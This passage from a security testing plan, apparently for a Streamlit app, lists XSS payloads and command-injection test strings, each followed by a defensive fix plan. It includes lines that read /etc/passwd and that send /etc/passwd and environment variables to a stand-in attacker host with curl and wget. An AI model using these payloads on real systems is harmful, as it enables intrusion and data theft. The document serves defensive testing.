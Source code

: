 **Test Cases:**

```html
<!-- Basic XSS attempts -->
<script>
  alert('XSS');
</script>
<img src=x onerror=alert('XSS')> <svg onload=alert('XSS')>

<!-- Advanced XSS attempts -->
<iframe src="javascript:alert('XSS')"></iframe>
<object data="javascript:alert('XSS')"></object>
<embed src="javascript:alert('XSS')" />

<!-- XSS with encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E &lt;script&gt;alert('XSS')&lt;/script&gt;
```

**Implementation Plan:**

1. **Add XSS Protection** in Streamlit components
2. **Implement Content Security Policy (CSP)**
3. **Sanitize User Inputs** before display
4. **Add Output Encoding** for all dynamic content

#### **1.3 Command Injection Testing**

**Target Areas:**

- File upload functionality
- Admin panel commands
- System operations

**Test Cases:**

```bash
# Basic command injection
; ls -la
| cat /etc/passwd
&& whoami
`id`

# Advanced command injection
; curl http://attacker.com/steal?data=$(cat /etc/passwd)
; wget http://attacker.com/steal?data=$(env)
```

**Implementation Plan:**

1. **Validate All Commands** before execution
2. **Use Subprocess Safely** with proper escaping
3. **Implement Command Whitelisting**
4. **Add Sandboxing** for system operations

#### **1.4 Path Traversal Testing**
